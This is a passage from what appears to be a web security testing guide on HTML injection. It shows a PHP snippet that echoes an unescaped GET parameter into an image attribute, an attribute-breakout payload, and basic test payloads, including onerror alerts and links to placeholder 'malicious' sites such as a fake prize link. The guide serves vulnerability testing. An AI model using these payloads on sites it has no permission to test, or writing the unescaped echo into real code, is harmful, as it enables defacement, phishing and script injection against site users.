 2. **Attribute Context**

```
<img src="<?php echo $_GET['image']; ?>">
```

Payload:

```
x" onerror="alert('Injected HTML');
```

## Basic HTML Injection Payloads

Here are some simple payloads you can use to manually test for HTML Injection vulnerabilities:

```html
<b>Bold Text</b>              <!-- Makes text bold -->
<i>Italic Text</i>            <!-- Makes text italic -->
<u>Underlined Text</u>        <!-- Underlines text -->
<a href="http://malicious.com">Click Me</a>  <!-- Creates a clickable link -->
<img src="invalid-url" onerror="alert('HTML Injection!')">  <!-- Triggers an alert if the image fails to load -->
```

- **Injected Heading:** This payload injects an HTML heading element into the page.

```
<div>Click <a href="http://malicious-site.com">here</a> to win a prize!</div>
```

- **Image Tag:** This payload uses an image tag to test if HTML injection is possible and if the application correctly handles HTML attributes.

```
<img src="http://malicious-site.com/image.jpg">
```

- **Image Error:** This payload uses an image tag with an invalid source. When the image fails to load, the `onerror` event handler triggers an alert.

```
<img src="x" onerror="alert('Injected HTML');">
```

- **Style Injection:** This payload injects a style attribute to change the appearance of the page.

```
<div style="color:red">Injected HTML</div>
```

These basic payloads are useful for determining whether the web application is escaping or sanitizing user input before rendering it.

## Advanced HTML Injection Payloads

If you suspect a more sophisticated vulnerability or if basic payloads do not reveal a vulnerability, you can escalate your testing with more advanced payloads. These payloads may be used to inject JavaScript or other potentially dangerous code.
